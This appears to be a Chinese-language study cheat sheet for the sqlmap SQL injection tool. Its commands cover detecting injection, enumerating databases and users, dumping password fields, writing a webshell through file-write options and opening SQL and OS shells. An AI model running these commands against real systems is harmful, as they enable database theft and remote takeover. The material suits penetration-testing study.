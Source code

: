 # sqlmap 笔记

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**官网**
- https://github.com/sqlmapproject/sqlmap

**文章**
- [Sqlmap使用教程[个人笔记精华整理] | 漏洞人生](http://www.vuln.cn/1992)

---

## 常见操作
**检测注入**
```bash
sqlmap -u URL   # 判断注入
sqlmap -u URL -p id # 指定参数注入
sqlmap -u URL --cookie="xxxxx"  # 带 cookie 注入
sqlmap -u URL --batch   # 不要请求用户输入,使用默认行为
sqlmap -r aaa.txt   # post型注入

sqlmap -u URL --os "Windows"    # 指定操作系统
sqlmap -u URL --dbms mysql --level 3  # 指定数据库类型为 mysql,级别为 3(共 5 级,级别越高,检测越全面)
sqlmap -u URL --dbms mysql --risk 3   # 指定执行测试的风险(1-3, 默认 1) 1会测试大部分的测试语句,2会增加基于事件的测试语句,3会增加OR语句的SQL注入测试
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3   # 宽字节检测
sqlmap -u URL --proxy "socks5://127.0.0.1:1080" # 代理注入测试
sqlmap -u URL --referer "http://www.google.com" # 模拟来源
sqlmap -u URL --user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"  # 模拟谷歌蜘蛛
```

**获取信息**
```bash
sqlmap -u URL --current-db  # 获取当前数据库
sqlmap -u URL --dbs  # 枚举所有数据库
sqlmap -u URL -f    # 检查 DBMS 版本
sqlmap -u URL --is-dba  # 判断当前用户是否是 dba
sqlmap -u URL --users   # 列出数据库管理系统用户
sqlmap -u URL --privileges  # 枚举 DBMS 用户权限
sqlmap -u URL --passwords   # 获取当前数据库密码

sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns   # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all    # 列出所有数据库,所有表内容
```

**搜索字段**
```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password   # 在 dedecms 数据库中搜索字段 admin 或者 password.
```

**读取与写入文件**

首先找需要网站的物理路径,其次需要有可写或可读权限.

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 (物理路径)
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 (mssql xp_shell)
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注:mysql 不支持列目录,仅支持读取单个文件.sqlserver 可以列目录,不能读写文件,但需要一个 xp_dirtree 函数
```

**提权**
```bash
sqlmap -u URL --sql-shell   # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell    # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig # 在注入点直接执行命令
```
